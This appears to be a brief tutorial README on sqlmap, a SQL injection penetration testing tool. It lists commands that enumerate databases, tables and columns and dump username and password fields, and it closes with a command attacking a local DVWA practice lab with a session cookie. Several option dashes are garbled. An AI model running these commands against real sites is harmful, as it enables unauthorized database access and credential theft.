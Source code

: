 # sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1
sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3
sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie
sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases
sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database
sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table 
sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump
//dump the data of the column "username" and "password"

see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with 
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" --batch -D dvwa -T users -C user,password --dump
```







